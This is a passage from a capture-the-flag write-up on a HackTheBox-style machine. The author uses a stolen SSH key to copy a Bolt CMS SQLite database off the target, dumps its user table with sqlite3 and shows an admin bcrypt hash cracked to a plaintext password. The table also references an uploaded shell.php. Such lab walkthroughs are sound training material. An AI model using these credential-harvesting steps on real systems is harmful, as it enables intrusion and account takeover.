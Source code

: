 <figure><img src="../../../.gitbook/assets/image (1) (1) (1) (3).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### Bolt SQLite

With access to the machine, I wanted to enumerate the `bolt` config files to see if I can find anything new. There was a database file `bolt.db` at `/var/www/html/bolt/app/databases`. I transferred this over using `scp.`

```
$ scp -i id_rsa bolt@registry.htb:/var/www/html/bolt/app/database/bolt.db .
Enter passphrase for key 'id_rsa': 
bolt.db                                                   100%  288KB   1.6MB/s   00:00
```

We can then use `sqlite3` to enumerate this.

```
sqlite> .tables
bolt_authtoken    bolt_field_value  bolt_pages        bolt_users      
bolt_blocks       bolt_homepage     bolt_relations  
bolt_cron         bolt_log_change   bolt_showcases  
bolt_entries      bolt_log_system   bolt_taxonomy   
sqlite> SELECT * from bolt_users;
1|admin|$2y$10$e.ChUytg9SrL7AsboF2bX.wWKQ1LkS5Fi3/Z0yYD86.P5E9cpY7PK|bolt@registry.htb|2019-10-17 14:34:52|10.10.14.2|Admin|["files://shell.php"]|1||||1||["root","everyone"]
```

We have a hash here that is cracked to give `strawberry`.

<figure><img src="../../../.gitbook/assets/image (5) (1) (9).png" alt=""><figcaption></figcaption></figure>

